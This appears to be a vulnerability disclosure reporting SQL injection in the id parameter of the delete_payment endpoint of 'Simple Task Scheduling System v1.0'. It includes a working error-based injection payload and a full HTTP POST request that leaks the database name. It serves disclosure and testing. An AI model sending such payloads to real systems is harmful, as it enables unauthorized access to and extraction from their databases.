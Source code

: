# Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/classes/Master.php?f=delete_payment

Vulnerability location: /tss/classes/Master.php?f=delete_payment, id

You need to first create the library by executing the following sql statement in the database tss_db

```sql
CREATE TABLE `payment_list` ( 
  `id` int(30) NOT NULL,
  `user_id` int(30) NOT NULL,
  `name` text NOT NULL,
  `status` tinyint(1) NOT NULL DEFAULT '1',
  `delete_flag` tinyint(1) NOT NULL DEFAULT '0',
  `date_created` datetime NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `date_updated` datetime NOT NULL DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
```

db_name = tss_db;length=6

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /tss/classes/Master.php?f=delete_payment HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 67

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/179392270-54e973c1-0307-40cc-9748-19345cf1ccf5.png)
